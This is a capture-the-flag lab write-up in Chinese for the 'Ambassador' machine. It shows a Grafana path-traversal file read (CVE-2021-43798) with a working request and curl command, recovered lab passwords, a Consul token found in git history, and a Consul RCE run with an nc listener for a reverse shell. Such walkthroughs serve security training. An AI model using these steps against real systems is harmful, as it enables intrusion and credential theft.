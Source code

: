 ### 一、信息收集
1. 端口扫描
```shell
nmap -A 10.10.11.183
# 出现端口：80、22、3306、3000
# 从这边可以确定使用mysql数据库(3306)以及Node服务(3000)
```

2. 目录爆破

针对端口80和3306,使用`ffuf`工具进行爆破，没有找到有用的目录
```shell
# 80端口
ffuf -u "http://10.10.11.183/FUZZ" -w /home/kali/projects/fuzzDicts/directoryDicts/Filenames_or_Directories_All.txt

# 3000端口
ffuf -u "http://10.10.11.183:3000/FUZZ" -w /home/kali/projects/fuzzDicts/directoryDicts/Filenames_or_Directories_All.txt
```

3. 敏感信息收集
- 针对`80`端口
>  出现Hugo 0.94.2框架，但是网上基本找不到漏洞利用，因此放弃。
>  但是该页面提示需要使用需要使用`ssh` 进行登录且登录用户为`developer`

<img decoding="async" src="./images/Ambassador.png" >

- 针对`3000`端口
> 出现平台`Grafana`，搜索发现存在文件任意文件读取漏洞，漏洞编号为:CVE-2021-43798
> 网络搜索相关利用文档


### 二、漏洞利用
1. 确认漏洞存在
- 使用bp获取端口`3000`的请求数据包，并进行更改
```http
GET /public/plugins/text/../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.183:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 6666666666OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
> 可以读取内容，因此可以利用

2. 下载默认数据库
```shell
curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db

### 下载后，使用sqlite3工具打开grafana.db，可以找到mysql数据库的密码：dontStandSoCloseToMe63221!
```

3. 连接mysql
> 经过数据库的查找，发现存在base64编码的密码：YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==
> 解码后:anEnglishManInNewYork027468

<img decoding="async" src="./images/Ambassador1.png" >
<img decoding="async" src="./images/Ambassador2.png" >

4. 获得shell
> ssh developer@10.10.11.183 登录即可

<img decoding="async" src="./images/Ambassador3.png" >

### 三、提权
1. 寻找可以使用的SUID文件
```shell
# 执行语句
find . -perm /4000

# 文件范围，没有找到可以使用的
usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
```

2. 其他
- 在目录`/opt/my-app`发现`.gitignore`文件
-  查看git日志:git log
```shell
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
```

- 展示差异:git show 33a53ef9a207976d5ceceddc41a199558843bf3c
```shell
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
> 获得token：bb03b43b-1d81-d62b-24b5-39540ee469b5

- 利用Hashicorp Consul Service API远程命令执行漏洞
> 利用路径:https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API
```shell
# 上传exploit.py文件
# 本地启动nc监听指定端口: nc -lvnp 4444
# 执行脚本:python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.10 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

```